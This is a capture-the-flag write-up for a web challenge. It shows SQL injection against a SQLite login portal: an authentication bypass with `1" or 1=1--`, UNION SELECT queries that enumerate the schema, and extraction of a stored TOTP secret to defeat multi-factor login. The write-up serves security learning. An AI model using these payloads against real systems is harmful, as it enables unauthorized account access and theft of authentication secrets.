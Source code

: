 # [Web] Touch Of The Paranoid

## Background

The description given for this challenge was:
```
We're happy to announce that we now support multi-factor authentication. Our login portal is now bulletproof and unhackable! Our first user mentioned something about Google Authenticator...

PS: No bruteforce is needed, you will be throttled if you try. 
```

<br/>

## Login Portal

<p align="center">
    <img src="images/TouchOfTheParanoid01.png" style="width:50%;" /><br/>
</p>

Upon visiting the provided link we are first greeted with a login portal. First instincts is to test the fields for any SQL injection vulnerability by entering quotes `"` in both of the fields.

And bingo! An error was thrown back to the DOM indicating that the portal uses SQLite3 and the fields are indeed vulnerable.

```
sqlite3.OperationalError: unrecognized token: "6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b"
```

<br/>

Next, I tried entering `1" or 1=1--` into both fields and it seems that I have succesfully infiltrated into the admin account. However, we are still required to enter a 6 digit OTP in order to proceed.

<p align="center">
    <img src="images/TouchOfTheParanoid02.png" style="width:50%;" /><br/>
</p>

<br>

Seems like further digging of the database is required to gain access into the portal. A quick Google search for `"sqlite3 sql injection"` can get us some useful queries required for sniffing out the data. I first start with sniffing out the table name:

`
1" UNION SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_sequence' -
`

Which resulted in:
```
Hello users! Please enter the 6 digit code from your authentication app
```

<br>

Looks like our table name is `users`. Next we try to get the create table statement for table `users` which will show us all the columns.

`
1" UNION SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users' --
`

Which resulted in:
```
Hello CREATE TABLE `users` (`username` TEXT, `password` TEXT, `secret` TEXT, `id` INTEGER PRIMARY KEY AUTOINCREMENT)! Please enter the 6 digit code from your authentication app
```

<br>

Next we will try to extract the secret field from the users table:

`
1" UNION SELECT secret FROM users --
`

Which resulted in:
```
Hello 6C7GGJVTU4NSELOZ! Please enter the 6 digit code from your authentication app
```

<br>

Nice, we have now gotten hold of our OTP secret key `6C7GGJVTU4NSELOZ`. We can now key this key in Google Authenticator or any other MFA apps to generate our OTP.

Now, we have to login back to admin with `1" or 1=1--` and key in the newly generated OTP into the field and viola! We got out flag!

<p align="center">
    <img src="images/TouchOfTheParanoid03.png" style="width:50%;" /><br/>
</p>

```
CTFSG{d0nt_b3_afrA1d_oF_n33dLes}
```
